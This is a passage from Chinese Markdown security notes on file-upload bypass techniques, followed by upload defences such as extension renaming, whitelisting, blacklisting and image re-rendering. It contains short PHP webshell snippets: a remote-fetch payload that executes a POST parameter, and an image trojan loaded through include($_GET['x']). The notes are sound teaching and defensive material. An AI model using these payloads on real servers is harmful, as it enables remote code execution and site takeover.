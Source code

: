 ```
	 	get {            
		return false;
		}
	}
}
```

### [IIS解析漏洞](IIS.md#IIS解析漏洞)绕过

### [Apache解析漏洞](Apache.md#Apache解析漏洞)绕过

### [Nginx解析漏洞](Nginx.md#Nginx解析漏洞)绕过

### 下载绕过
远程下载文件绕过

```
<?php$str = file_get_contents('http://127.0.0.1/ian.txt');
$str($_post['ian']);?>
```

### [文件包含漏洞](文件包含漏洞.md)绕过

```
上传图片木马
$x=$_GET['x'];
include($x);访问:http://www.xxxx.com/news.php?x=xxxxxx.jpg
```

## 防护手段
（1）文件后缀重命名
只允许单一文件上传，例如针对头像上传，只允许JPG格式（需注意，此种方式下，其他格式文件也可上传，但由于后缀名会被重命名为．jpg，因此其他格式文件无法执行）。

![](%E5%90%8E%E7%BC%80%E9%87%8D%E5%91%BD%E5%90%8D%E4%BF%AE%E5%A4%8D.png)

（2）白名单过滤
只允许一种类型的文件上传，如图片上传。

![](%E7%99%BD%E5%90%8D%E5%8D%95%E4%BF%AE%E5%A4%8D.png)

（3）黑名单过滤
允许多种类型文件上传，如统计表格提交、基本信息文件上传等。

![](%E9%BB%91%E5%90%8D%E5%8D%95%E4%BF%AE%E5%A4%8D.png)

## 防护流程思路

（1）限制高危扩展名上传

● 利用黑白名单确定后缀名是否合法。

● 根据应用特点重新对上传文件进行后缀重命名。

（2）限制高危文件内容出现

● 利用内容检索来检测是否存在非正常内容。

● 确认图片格式与上传文件内容是否对应。

● 在图像加载时重新渲染，避免非图像内容出现。

![](%E9%98%B2%E6%8A%A4%E6%B5%81%E7%A8%8B%E6%80%9D%E8%B7%AF.png)
